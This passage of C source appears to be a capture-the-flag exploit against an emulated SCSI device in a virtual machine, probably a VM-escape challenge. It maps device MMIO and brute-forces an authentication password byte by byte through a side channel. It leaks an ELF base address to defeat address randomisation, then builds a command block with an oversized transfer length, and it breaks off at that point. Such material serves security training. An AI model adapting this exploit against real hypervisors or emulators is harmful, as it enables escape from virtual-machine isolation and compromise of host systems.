         set_pwidx( cur );
        int idx = get_pwidx();
        if ( idx == 0 ) {
            cur++;
            continue;
        } else {
            guessed[g] = cur;
            g_idx++;
            cur = 0;
        }

        if ( idx == size ) {
            break;
        }
    }
}

int main( void )
{
    // mmap the mmio so we can interact with it
    mmio = devmap( mmio_addr );
    if ( !mmio ) {
        return 0;
    }

    // Allocate buffer for the CDB command and tmp space
    CTF_req_head* head = mmap( NULL, 0x1000, PROT_READ | PROT_WRITE, MAP_SHARED | MAP_ANONYMOUS, 0, 0 );

    // Force physical memory assignment to it
    memset( head, 0xcc, 0x1000 );
    printf( "CTF_req_head VA: %p\n", head );

    // Convert VA to PA
    void* head_phys = (void*)virt_to_phys( head );
    printf( "CTF_req_head PA: %p\n", head_phys );

    // Authenticate with the device
    // and leak ELF
    unsigned char guessed[20] = { 0 };
    guessed[0] = 'B';
    guessed[1] = 'L';
    guessed[2] = 'U';
    guessed[3] = 'E';
    leak_elf( guessed, sizeof( guessed ) );
    size_t elf = *(size_t*)&guessed[12] - 0x50915d;
    printf( "elf : %p\n", (void*)elf );
    guessed[9] = '\x7f';

    // Set io status
    ctf_set_io( 0 );

    // Build the CDB for target SCSI Device
    head->id = 0;
    head->channel = 0;
    head->lun = 0;
    head->type = 5;
    head->cdb_len = 12;
    head->cdb[0] = 0xa0; // CMD
    head->cdb[1] = 0; // RESERVED
    head->cdb[2] = 2; // lba - 4 bytes BIG ENDIEN, <= 2
    head->cdb[3] = 0; // RESERVED
    head->cdb[4] = 0; // RESERVED
    head->cdb[5] = 0; // RESERVED
    *(unsigned int*)&head->cdb[6] = 0x50000000; // XFER - BIG ENDIEN, > 0xf
    head->cdb[10] = 0; // RESERVED
    head->cdb[11] = 0; // CONTROL
